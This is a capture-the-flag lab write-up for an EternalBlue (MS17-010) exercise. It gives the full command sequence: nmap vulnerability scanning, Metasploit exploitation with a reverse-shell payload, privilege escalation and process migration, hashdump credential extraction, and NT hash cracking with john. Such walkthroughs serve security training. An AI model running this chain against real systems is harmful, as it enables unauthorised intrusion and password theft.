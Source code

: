 # Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
 
'nmap -sC -sV 10.10.104.20': 3

 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
 
'nmap --script=vuln 10.10.104.20': ms17_010

# Task 2
 1. Start Metasploit
 
'msfconsole'

 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
 
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'

 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
 
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20

4. Run the exploit!
 
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.

# Task 3

 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
 
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
 
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION

3. Set the required option, you may need to list all of the sessions to find your target here.
 
'sessions' lists our sessions and their IDs, now 'set SESSION 1'

4. Run! If this doesn't work, try completing the exploit from the previous task once more.
 
'exploit'

5. Once the meterpreter shell conversion completes, select that session for use.
 
'sessions -i 1'

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
 
'getsystem', 'shell', 'whoami'

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
 
'migrate 3604' worked!

# Task 4

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
 
'hashdump': Jon

2. Copy this password hash to a file and research how to crack it. What is the cracked password?
 
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.
In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'
This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.

# Task 5

I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system
I typed 'cd /' and then 'cat flag1.txt' for the first flag.
I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.
Now where is flag2? The hint is supposed to point us to where windows stores its passwords.
With some googling 'cd /windows/system32/config' and there's flag 2!
